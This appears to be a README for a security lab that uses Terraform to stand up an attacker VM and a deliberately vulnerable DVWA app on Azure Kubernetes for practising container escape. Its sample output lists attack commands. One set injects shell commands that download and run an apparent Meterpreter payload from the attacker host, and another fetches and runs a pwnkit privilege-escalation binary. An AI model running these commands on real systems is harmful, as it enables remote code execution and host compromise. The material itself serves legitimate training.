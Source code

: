 ## Provision the cluster

1. Clone the project

```bash title="Clone the project"
git clone git@github.com:Lunalectric/container-escape.git
```

2. cd into the terraform folder

```bash
cd container-escape/azure
```

3. Initialize the project (download modules)

```bash
terraform init
```

4. Check that everything is ready

```bash
terraform plan
```

5. Apply the configuration

```bash
terraform apply -auto-approve
```

Once the provisioning completes you will see something like this:

```bash
Apply complete! Resources: 14 added, 0 changed, 0 destroyed.

Outputs:

public_ip_address = "13.92.179.31"
resource_group_name = "rg-Lunalectric-container-escape"
summary = <<EOT

attacker vm public ip: 13.92.179.31

terraform output -raw tls_private_key > id_rsa
ssh -o StrictHostKeyChecking=no -i id_rsa azureuser@13.92.179.31

export KUBECONFIG="\$\{PWD}/aks-kubeconfig"
kubectl apply -f dvwa-deployment.yml
kubectl port-forward $(kubectl get pods -o name) 8080:80


Hacking commands:

dvwa-browser---------------

;curl -vk http://13.92.179.31:8001/met-container -o /tmp/met
;chmod 777 /tmp/met
;/tmp/met

privilege-escalation-------

cd /tmp
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
chmod a+x ./priv-es
./priv-es

container-escape-----------

```